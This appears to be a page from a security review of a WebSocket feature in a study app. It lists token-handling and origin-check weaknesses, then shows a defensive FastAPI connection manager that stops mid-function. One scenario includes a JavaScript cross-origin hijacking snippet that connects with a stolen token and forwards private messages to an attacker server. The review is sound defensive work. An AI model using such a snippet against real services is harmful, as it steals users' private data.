 **Vulnerabilities**:
1. Token passed during handshake (potentially logged)
2. No token expiry handling during long sessions
3. No re-authentication mechanism
4. Origin validation not specified
5. No rate limiting per connection

**Attack Scenarios**:

**A. Token Logging**:
- WebSocket handshake token logged in server logs
- Logs leaked/accessed by attacker
- Attacker uses logged token to connect

**B. Long Session Hijacking**:
- User establishes WebSocket connection
- Access token expires after 15 minutes
- Connection remains open for hours
- No re-validation of credentials

**C. Cross-Origin WebSocket Hijacking (CSWSH)**:
```javascript
// Attacker's website
const socket = io('https://studyin.app/ws', {
    auth: { token: victim_token },  // Stolen token
    withCredentials: true
});

socket.on('private_message', (data) => {
    // Steal user's private AI coach conversations
    sendToAttackerServer(data);
});
```

**Recommendation**:
```python
# Backend WebSocket security
from fastapi import WebSocket, WebSocketDisconnect
import time

class WebSocketManager:
    def __init__(self):
        self.active_connections: Dict[str, WebSocket] = {}
        self.connection_metadata: Dict[str, dict] = {}

    async def connect(self, websocket: WebSocket, user_id: str, token: str):
        # 1. Validate Origin header
        origin = websocket.headers.get("origin")
        if origin not in settings.ALLOWED_ORIGINS:
            await websocket.close(code=1008, reason="Invalid origin")
            return False

        # 2. Verify initial token
        try:
            payload = await verify_token(token)
            if payload['user_id'] != user_id:
                await websocket.close(code=1008, reason="Invalid token")
                return False
        except Exception:
            await websocket.close(code=1008, reason="Authentication failed")
            return False

        # 3. Accept connection
        await websocket.accept()

        # 4. Store connection metadata
```